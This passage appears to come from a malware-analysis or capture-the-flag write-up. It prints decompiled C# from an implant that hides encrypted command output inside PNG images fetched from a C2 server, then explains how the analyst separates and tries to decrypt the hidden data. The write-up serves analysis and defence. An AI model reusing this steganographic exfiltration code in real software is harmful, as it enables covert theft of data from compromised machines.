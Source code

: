 ```c#
        {
            return new string(Enumerable.ToArray<char>(Enumerable.Select<string, char>(Enumerable.Repeat<string>("...................@..........................Tyscf", length), (Func<string, char>)((string s) => s[_rnd.Next(s.Length)]))));r
        }
        internal static byte[] GetImgData(byte[] cmdoutput)
        {
            int num = 1500;
            int num2 = cmdoutput.Length + num;
            string s = _newImgs[new Random().Next(0, _newImgs.Count)];
            byte[] array = Convert.FromBase64String(s);
            byte[] bytes = Encoding.UTF8.GetBytes(RandomString(num - array.Length));
            byte[] array2 = new byte[num2];
            Array.Copy(array, 0, array2, 0, array.Length);
            Array.Copy(bytes, 0, array2, array.Length, bytes.Length);
            Array.Copy(cmdoutput, 0, array2, array.Length + bytes.Length, cmdoutput.Length);
            return array2;
        }
    }
```

- This function gets a random PNG out of the array it fetched from the c2 server
- Then it proceeds to build the PNG file
- First the PNG data
- Second, it generates a random string based on `...................@..........................Tyscf` charset
- Third, it adds the encrypted command output
- Finally it concatenates all three parts and returns a malicious PNG
- Based on this information we can isolate the command output section in the PNGs
- Implant makes 6 POST requests i.e. 6 attempts at uploading a perfect PNG :


![](https://i.imgur.com/hJfPvQT.png)


First PNG :


![](https://i.imgur.com/0S1ga9W.png)

- The three parts are clearly visible, actual PNG finishes at `IEND` followed by random string and a small encrypted command output
- But the implant made 6 requests, I tried to decrypt the data of each PNG but it did not work

One tiny detail


- Going back to `Encryption` function, it contains a block :

```
if (comp)
        {
            array = Compress(array);
        }
```
